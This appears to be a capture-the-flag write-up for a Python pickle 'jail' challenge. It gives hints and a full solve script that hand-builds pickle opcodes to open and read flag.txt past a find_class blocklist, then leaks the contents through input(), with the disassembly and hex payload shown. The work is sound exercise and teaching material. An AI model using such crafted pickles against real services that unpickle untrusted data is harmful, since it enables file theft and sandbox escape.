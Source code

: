 # jail 3

## restrictions

larger blocklist for the `find_class` function

additionally, all find_class only finds functions/classes from builtins or from `__main__`

## hints

<details>
    <summary>Hint 1</summary>

We don't need to get a shell to get the flag because we know the flag is in `flag.txt`

</details>

<details>
    <summary>Hint 2</summary>

We need to open the file and read the data. Hmm... If only we could somehow get the read attribute of an object easily.

</details>

<details>
    <summary>Hint 3</summary>

Perhaps try using BUILD opcode on Data class with `{"Book": open('flag.txt'}`

</details>

<details>
    <summary>Hint 4</summary>

Well, print is blocked. I wonder what other functions in builtins will easily allow us to get the data...

</details>

<details>
    <summary>Hint 5</summary>

Perhaps `input(flag)`?

</details>

<details>
    <summary>Solution</summary>

tl;dr - `Data.Book = open("flag.txt"); input(Data.Book.read())`

solve.py
```
from pickle import *
from pickletools import dis

p = b""

p += PROTO
p += b'\x05'

p += GLOBAL
p += b'data\n'
p += b'self\n'

p += NONE

p += MARK

p += STRING
p += b'"Book"\n'

p += GLOBAL
p += b'builtins\n'
p += b'open\n'
p += STRING
p += b'"flag.txt"\n'
p += TUPLE1
p += REDUCE

p += DICT

p += TUPLE2
p += BUILD

p += POP

p += GLOBAL
p += b'data\n'
p += b'read\n'
p += EMPTY_TUPLE
p += REDUCE
p += MEMOIZE  # memo[0] = flag
p += POP

p += GLOBAL
p += b'builtins\n'
p += b'input\n'  # no access to print so we use input instead
p += GET
p += b'0\n'
p += TUPLE1
p += REDUCE

p += STOP

dis(p)
print("="*50)
print(p.hex())
```

output
```
    0: \x80 PROTO      5
    2: c    GLOBAL     'data self'
   13: N    NONE
   14: (    MARK
   15: S        STRING     'Book'
   23: c        GLOBAL     'builtins open'
   38: S        STRING     'flag.txt'
   50: \x85     TUPLE1
   51: R        REDUCE
   52: d        DICT       (MARK at 14)
   53: \x86 TUPLE2
   54: b    BUILD
   55: 0    POP
   56: c    GLOBAL     'data read'
   67: )    EMPTY_TUPLE
   68: R    REDUCE
   69: \x94 MEMOIZE    (as 0)
   70: 0    POP
   71: c    GLOBAL     'builtins input'
   87: g    GET        0
   90: \x85 TUPLE1
   91: R    REDUCE
   92: .    STOP
highest protocol among opcodes = 4
==================================================
800563646174610a73656c660a4e285322426f6f6b220a636275696c74696e730a6f70656e0a5322666c61672e747874220a85526486623063646174610a726561640a29529430636275696c74696e730a696e7075740a67300a85522e
```

</details>
